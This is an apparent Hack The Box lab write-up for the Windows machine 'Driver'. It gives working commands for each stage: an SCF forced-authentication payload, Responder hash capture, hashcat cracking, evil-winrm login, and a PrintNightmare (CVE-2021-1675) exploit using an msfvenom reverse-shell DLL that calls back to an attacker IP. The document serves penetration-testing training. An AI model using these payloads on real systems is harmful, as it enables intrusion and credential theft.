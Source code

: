 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
### Recon
```bash
nmap -p- -T4 10.10.11.106
nmap -sC -sV -p80,135,445 10.10.11.106
```
- Port [80](HTTP): IIS HTTP, basic auth prompt ("MFP Firmware Update Center")
- Port 135/[445](SMB): Typical Windows services
- `/etc/hosts` entry: `10.10.11.106 driver.htb`

### Web Brute-force
```bash
nmap -p80 --script http-brute 10.10.11.106
```
- **Found**: admin:admin
- Firmware upload page (printer model Ricoh)

### Forced Authentication (Responder Attack)
**SCF Payload**:
```ini
[Shell]
Command=2
IconFile=\\10.10.14.131\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
- Upload `.scf` via firmware update
- Start Responder:
```bash
sudo responder -I tun0 -A
```
- Captured NTLMv2 hash for user `tony`

### Crack NTLMv2 with Hashcat
```bash
hashcat -m5600 captured-hashes.txt /usr/share/wordlists/rockyou.txt --force
```
- **Cracked**: `tony:liltony`

### Access with Evil-WinRM
```bash
evil-winrm -i 10.10.11.106 -u 'DRIVER\\tony' -p 'liltony'
```
- Retrieved `user.txt`

### Enumeration for Privilege Escalation
```powershell
schtasks /query /fo LIST /v > lst.txt
```
- Found job: `C:\Users\tony\appdata\local\job\job.bat`
```bat
@echo off
:LOOP
%SystemRoot%\explorer.exe "C:\firmwares"
ping -n 20 127.0.0.1 > nul && powershell -ep bypass c:\users\tony\appdata\local\job\quit.ps1
DEL /q C:\firmwares\*
cls
GOTO :LOOP
```
- `quit.ps1` closes file explorer window if folder is open

### PrintNightmare Exploit (CVE-2021-1675)
```bash
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675
```
- Generate reverse shell DLL:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.216 LPORT=4444 -f dll > shell-x64.dll
```
- Configure and start Samba:
```ini
[smb]
    path = /tmp
    guest ok = yes
    read only = no
    browsable = yes
```
```bash
cp shell-x64.dll /tmp/
sudo service smbd start
```
- Patch impacket:
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 setup.py install
```
- Run exploit:
```bash
python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 \\10.10.14.216\smb\shell-x64.dll
```
- **Catch shell**:
```bash
nc -nvlp 4444
```

### Privilege Escalation
```bash
whoami
# nt authority\system
cat C:\Users\Administrator\Desktop\root.txt
```

### Summary
- Initial foothold through default creds on printer firmware page
- Forced authentication with `.scf` file to capture NTLM hash
- Used Evil-WinRM with cracked creds
- Privilege escalation using PrintNightmare exploit
- Full SYSTEM access achieved